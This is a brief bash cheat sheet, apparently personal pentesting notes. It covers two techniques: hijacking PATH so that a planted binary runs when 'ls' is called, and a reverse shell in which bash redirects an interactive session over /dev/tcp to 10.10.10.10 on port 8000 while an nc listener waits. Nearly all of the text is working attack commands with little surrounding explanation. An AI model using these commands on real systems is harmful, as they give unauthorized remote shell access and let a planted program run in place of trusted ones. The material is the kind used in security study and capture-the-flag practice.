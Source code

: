 # bash

## Path vulnerability

If something searches the Path for a a command and where able to replace the path we can trick the system to execute something else.  
Whenever we use `ls` it will now actually run `cat`.

```bash
export PATH="/tmp/tmp:${PATH}"
cp /bin/cat /tmp/tmp/cat
mv /tmp/tmp/cat /tmp/tmp/ls
```

## Reverse shell with /dev/tcp

local listener with nc on port 8000

```text
nc -lvp 8000
```

use /dev/tcp to connect to 10.10.10.10 on port 8000 and redirect bash to it.

```text
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/8000 0>&1
```



